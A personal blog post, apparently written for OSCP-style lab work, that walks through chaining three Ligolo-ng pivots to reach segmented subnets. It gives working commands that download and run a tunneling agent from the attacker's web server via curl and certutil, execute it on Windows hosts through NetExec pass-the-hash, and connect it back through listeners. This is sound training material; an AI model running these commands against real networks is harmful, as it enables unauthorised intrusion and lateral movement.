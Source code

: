 ```yaml
---
title: "Ligolo-ng Multi-Pivot - My methods"
date: 2024-06-27T00:00:30-06:00
categories:
  - blog
tags:
  - Networking
  - Pivoting
  - Routing
  - Ligolo
  - OSCP
---
```


There are plenty of articles, blogs, and how-tos out there that show how to use Ligolo-ng to tunnel your traffic through dispersed networks. I used many of them myself to learn how to use Ligolo-ng. I am sure there are some that explain even what I will today, but when I looked quickly, I didn't see one, and I need to create content, so this was born.

My hope for this post is to present some techniques to implement Ligolo-ng that may be helpful. It may be more appropriate to name this something like "Pivoting with Ligolo-ng - My Methods." I am going to focus this methodology on a single scenario: the multi-pivot, but with a bit of a twist. The final pivot will not route to a different subnet, only to a portion of an existing subnet unavailable to me from the previous pivot. I believe this will allow me to show enough content to make this blog post worth reading.

Let's dive into the scenario and the steps to achieve this unique pivoting method with Ligolo-ng.
(I will be redacting information that would identify the lab i am using. I don't know if it is neccesary but best to be safe.)

## Toolset
- Ligolo-ng - [nicocha30/ligolo-ng: An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface. (github.com)](https://github.com/Nicocha30/ligolo-ng)
- Net-Exec  - [Pennyw0rth/NetExec: The Network Execution Tool (github.com)](https://github.com/Pennyw0rth/NetExec)

## Preparation
I am going to get some preparation out of the way now in order to keep this as organized as possible, for you and for me.  TUN interfaces are used to route traffic between the ligolo server and agents.  These don't exist so we must create them.  

### Create TUN Interfaces
The below commands will create three TUN interfaces for my user, `kali`.`
```bash
sudo ip tuntap add user kali mode tun ligolo1
sudo ip link set ligolo1 up

sudo ip tuntap add user kali mode tun ligolo2
sudo ip link set ligolo2 up

sudo ip tuntap add user kali mode tun ligolo3
sudo ip link set ligolo3 up
```

![](/_posts/res/ligolopivoting/Pasted%20image%2020240627051159.png?raw=true)
*Three ligolo TUN interfaces, my existing VPN connection, and my virtual ethernet.*

### My Terminals
Maybe not what you have come here for exactly but this post is about how I implement ligolo and  staying organized is a big part of it for me. That said, i use `Terminator` for my terminals.  It has some features that i use alot, but that may be another blog one day.  For today we will just focus on how it helps with ligolo.  When doing labs and CTF work i have many tabs open at once, and try to utilize them only for they are mean to be used for.  My ligolo tab houses any terminal window used to manage TUN interfaces.  Mainly, ligolo proxy and a terminal per ligolo agent.  Makes it super easy to bring them all back up if something fails.  Let's start ligolo and see what our space looks like.
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627052707.png?raw=true)
*Ligolo started from our `loadables` (This is the web server root) directory*

## Initiate first pivot
The first pivot in this lab happens on a linux machine.  I will SSH in, grab our ligolo linux agent and connect it to our ligolo proxy.

```bash
curl http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_linux_amd64/agent -0 -o /tmp/agent ; chmod +x /tmp/agent

/tmp/agent -connect 10.10.15.252:11601 -ignore-cert
```
*Connect back to our VPN address and ignore the cert warning since we are using a self signed cert. The autocert feature is pretty easy to use but i just dont bother in the labs.*

With the agent connected we can start the tunnel.  We will use our first TUN interface for this.

![](/_posts/res/ligolopivoting/Pasted%20image%2020240627064200.png?raw=true)
*Selected the session. Started the tunnel on ligolo1 TUN interface.*

Now all that is left for the first pivot is to add a route table entry on our attack machine.  The internal network on this lab is 172.16.1.0/24.

```bash
sudo ip route add 172.16.1.0/24 dev ligolo1
```
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627055507.png?raw=true)

Thats pivot one. Lets move on.

## Initiate second pivot
The second pivot is a standard pivot that will give us access to a new subnet 172.16.2.0/24.  Now even though this pivot host can route back to our attack host i will be using a listener on our first agent to forward the traffic anyway. I do this for two reasons. 1) it helps my brain to have a standard way of doing things.  2) From MY limited experience to this point... it seems more stable.

To setup the listener we will make sure the first session is selected (I know we only have one session currently so this may not make sense, but if you ever add a listener on the wrong session in ligolo you may find out the hard way that you should have done this bit of due diligence in the first place.), and then issue the `listener_add` command in ligolo. 

```bash
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:11601
```
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627064457.png?raw=true)
- --addr 0.0.0.0:443 sets up the listener interface and port on our pivot host
	- Using the all interfaces 0.0.0.0 is kind of lazy. this first pivot host does have multiple ips and we only really need this to run on one but .... meh. I may show a good reason later for this to be the internal address
- --to defines where the traffic destined for 443 on 0.0.0.0 will be sent to 
	- because this is the first pivot 127.0.0.1 actually means to send it to our attack host.  This could most likely be interchanged with our VPN address making it more clear. but... meh

With that out of the way, let's get our ligolo agent on this Windows box and connect it back to our listener.  Using Net-Connect is my preferred way of handling this, as i imagine it is alot of yours as well. 

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'
```
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627062722.png?raw=true)

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'c:\windows\system32\agent.exe -connect 172.16.1.23:443 -ignore-cert'
```

Now we select the session and start it on the ligolo2 TUN.
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627063703.png?raw=true)

I know that a portion of that subnet is not available from this pivot host.  I will act like i don't know that and then we will fix the routing later. 
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627063949.png?raw=true)

## Initiate third pivot
So we are already routing 172.16.2.0/24 over ligolo2 and this pivot is going to be a pivot to that same range but only available from this pivot host.  i want to maintain the integrity of my forwarding chain while still making it to this section of the network. 

Let's limit our routing to ligolo2 to only include our pivot host.
```bash
# Add an entry for 2.102 to route tthrough ligolo2
sudo ip route add 172.16.2.102/32 dev ligolo2
# Remove subnet route
sudo ip route del 172.16.2.0/24
```
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627065656.png?raw=true)

Now let's prepare a listener on our second pivot host session to connect this third pivot agent to. (I know. I'm sorry.)
```bash
listener_add --addr 0.0.0.0:443 --to 172.16.1.23:443
```

Now we can connect our agent to our new listener. we will use the same Net-Exec command to download the agent and run it on this windows host as we did on the last except this time we will connect to our new listener.
```bash
-x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'

-x 'c:\windows\system32\agent.exe -connect 172.16.1.5:443 -ignore-cert'
```

Once it connects, we will select the session and start the tunnel on the ligolo3 TUN interface.
```bash
start --tun ligolo3
```

Because I know what host is behind ligolo3 I can just add a host route (/32) to the table to reach it. But we will leave some more discussion about this for the closing thoughts. Let's add the host route and call it mission accomplished.

```bash
sudo ip route add 172.16.2.12/32 dev ligolo3
```
![](/_posts/res/ligolopivoting/Pasted%20image%2020240627071910.png?raw=true)

## Closing Thoughts
- Had i used specific IPs when setting up the listeners instead of 0.0.0.0 then when issuing the listener_list command in ligolo it would be easier to follow the trail
- If at any pivot point a network could not route to my VPN network or any upstream network in the forwarding chain i would have needed to add a port forward for my web server.  I like to try and use all the same ports where possible so in my case i would have added listeners to forward out port 8000 through the chain.
- Net-Exec isn't the only way to do download and start the agents but i find when possible it just makes life easier.
- This routing method could become tedious. :/
